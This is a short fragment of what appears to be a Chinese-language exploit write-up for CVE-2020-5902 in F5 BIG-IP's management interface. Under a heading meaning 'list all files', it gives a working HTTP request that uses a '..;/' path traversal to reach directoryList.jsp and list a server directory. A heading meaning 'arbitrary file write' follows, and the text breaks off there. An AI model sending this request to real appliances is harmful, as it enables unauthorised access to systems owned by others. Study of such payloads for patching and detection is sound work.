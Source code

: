 ![](cve-2020-5902/2.png)

列出所有文件：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
```

![](cve-2020-5902/4.png)

任意文件写入：
